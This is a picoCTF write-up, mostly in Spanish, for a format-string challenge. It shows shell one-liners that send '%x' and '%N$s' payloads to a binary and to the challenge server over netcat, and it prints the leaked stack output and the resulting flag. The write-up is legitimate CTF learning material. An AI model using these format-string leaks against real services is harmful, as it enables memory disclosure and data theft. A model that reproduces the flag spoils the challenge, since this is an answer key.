 ## Description

Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 49200`
#### Hints
- Format Strings
## Solución

```shell
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ python3 -c 'print("%x"*60)' | ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                                                            
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ nano flag.txt              
                                                                                                            
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ python3 -c 'print("%x"*60)' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
ffaa81b0ffffffff8049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825f7f36f0080483386f6369707b4654436d6d75646c665f79a7d6761804c0008049430f7f36b60ffaa8298f7f12bf0f7ed98a0d544ad003e8804c000804943080494103e8804c000ffaa82988049418f7efa400003e8ffaa82b0
                                                                                                            
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ python3 -c 'print("%x"*60)' | nc saturn.picoctf.net 63988
Tell me a story and then I'll tell you one >> Here's a story - 
ff9317c0ff9317e08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825e852ed00e83b3ab06f6369707b4654436b34334c5f676e3167346c466666305f3474535f315f6b63623261317d613235fbad2000784d56000e856a990804c00080494100804c000ff9318a880494182ff931954ff9319600ff9318c0

```

![[Pasted image 20241111105021.png]]


## Solución 2
```shell
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 54241 | grep -Ei "pico|ctf" ; done
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

```
## Bandera
```css
flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```
## Notas Adicionales

## Referencias
- 